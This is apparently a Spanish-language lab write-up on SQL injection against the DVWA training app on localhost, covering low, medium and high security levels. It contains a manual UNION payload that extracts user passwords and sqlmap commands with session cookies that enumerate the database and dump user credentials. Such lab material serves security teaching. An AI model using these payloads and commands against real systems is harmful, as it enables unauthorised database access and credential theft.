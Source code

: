 # SQLi

SQLi es una vulnerabilidad que permite a un atacante inyectar código SQL en una aplicación web. El atacante puede utilizar esta vulnerabilidad para obtener información sensible de la base de datos, como por ejemplo las contraseñas de los usuarios.

Se ha utilizado la herramienta SQLmap para realizar el ataque de inyección SQL y Burp Suite para interceptar el tráfico entre el cliente y el servidor.

> **WARNING**: Para la reproducción de este ataque se requerira cambiar algunas partes de los comandos mostrados a continuación, como por ejemplo la cookie de sesión y/o la IP del servidor

## Bajo
En este nivel, la vulnerabilidad se encuentra claramente en la siguiente línea, que
permite introducir entradas maliciosas manipulando la cadena de consulta SQL:

```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"
```

En este nivel se intentó inicialmente introducir entradas maliciosas manualmente.
La siguiente entrada permite obtener la contraseña (aún encriptada):
```
' UNION SELECT first_name,password FROM users;-- -&Submit=Submit
```

El objetivo de la cadena maliciosa es doble:

- En primer lugar, se escapa la consulta inicial y se fusiona con otra consulta que permite obtener la contraseña de todos los usuarios. Cabe destacar que sólo es posible incluir 2 columnas, ya que en caso contrario la petición HTTP falla.
- En segundo lugar, se debe escapar la consulta SQL, comentando el resto de la cadena, para así poder realizar la petición.

También se utilizó la herramienta SQLMap para obtener las contraseñas de manera automática y también para descifrarlas, ya que se observa que están encriptadas mediante MD5. A continuación se describe la metodología empleada:

Se ha capturado la cookie de sesión al hacer una petición a través de la página web. En este apartado se llevó a cabo inspeccionando el tráfico con el navegador, pero es posible utilizar herramientas como Burpsuite o Live HTTP headers para interceptar y manipular el tráfico.

Después, se ha construido el comando que lanza SQLMap e inicia las pruebas de inyección SQL:

> **NOTA:** SQLMap requiere algún parámetro **inyectable** (por ejemplo, en una query, un formulario o una cookie, entre otros) para poder realizar las pruebas de inyección SQL.

> **NOTA:** Se incluye también la cookie interceptada para realizar la petición con una sesión activa.

Seguidamente, se inspecciona de manera gradual la estructura de la base de datos, comenzando por obtener los nombres de los esquemas, y profundizando en ellos hasta llegar al nivel de las propias tablas:

- A nivel de **esquemas**:
    ```bash
    sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch --dbs
    ```
    ![dbs](/SQLI/assets/sqli_dbs.png)

- A **nivel relacional** en el esquema `dvwa`:
    ```bash
    sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa --tables
    ```
    ![tabs](/SQLI/assets/sqli_tabs.png)

- A nivel de **tabla** en la entidad `users`:
    ```bash
    sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa -T users --columns
    ```
    ![cols](/SQLI/assets/sqli_cols.png)


Finalmente, se obtiene el contenido de la tabla de usuarios con el siguiente comando, que vuelca las columnas seleccionadas (y se se desea se pueden desencriptar):

![dump](/SQLI/assets/sqli_dump.png)

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa -T users -C user,password --dump
```

## Medio
Ahora la petición se realiza mediante un formulario, por lo que SQLmap es una herramienta ideal en este apartado. 
Aún así, se podría hacer de manera manual con la misma consulta ligeramente transformada (hace uso de la función `mysql_real_escape_string()`, por lo que hay que reestructurarla manualmente), enviada a través del formulario por POST.

Se ha escogido la primera opción por simplicidad, ya que el comando necesario para realizar la inyección es muy similar. Sólo hay que añadir la petición mediante formulario por POST:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low"  --data "id=1&Submit=Submit" --batch --dbs
```

![med](/SQLI/assets/sqli_med.png)

Se puede evitar la fase de inspección de la base de datos, aunque si fuera necesario el procedimiento es análogo.

## Alto

En este nivel el identificador se introduce en la propia cookie. Además, el formulario se envía desde otra página distinta, por lo que es necesario incluir una url secundaria que sirve como punto de recepción de los resultados del ataque. La url secundaria será . Por lo demás, el comando es muy similar. 

En este apartado se ha usado además BurpSuite para interceptar el tráfico al lanzar una petición desde el formulario de la ventana emergente y así obtener la cookie necesaria. El procedimiento es análogo a los anteriores con el nuevo comando:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/session-input.php" --cookie "PHPSESSID=<session>; security=high" --data="id=1&Submit&Submit" --second-url "http://localhost/DVWA/vulnerabilities/sqli" --batch -D dvwa -T users -C user,password --dump
```

El efecto de añadir la url secundaria es capturar la redirección para obtener los resultados de la inyección.
![redir](/SQLI/assets/sqli_redir_hi.png)

El resultado es de nuevo la lista de usuarios con sus contraseñas:
![hi](/SQLI/assets/sqli_hi.png)